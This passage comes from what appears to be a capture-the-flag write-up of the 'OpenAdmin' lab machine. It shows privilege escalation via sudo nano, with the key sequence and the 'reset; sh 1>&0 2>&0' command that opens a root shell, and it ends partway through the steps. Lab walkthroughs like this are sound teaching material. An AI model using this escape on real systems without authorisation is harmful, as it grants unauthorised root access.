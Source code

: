

    sudo nano
    ^R^X
    reset; sh 1>&0 2>&0



Not that it matters, but `/opt/priv` is an empty file:



    joanna@openadmin:/opt$ ls -l priv 
    -rw-r--r-- 1 root root 0 Nov 22 23:49 priv



I'll run `sudo /bin/nano /opt/priv` and be dropped into `nano`:

![](/img/image-20200118155556941.png)

Now I'll hit Ctrl+r to read a file, and the menu at the bottom pops up:

![](/img/image-20200118155638935.png)
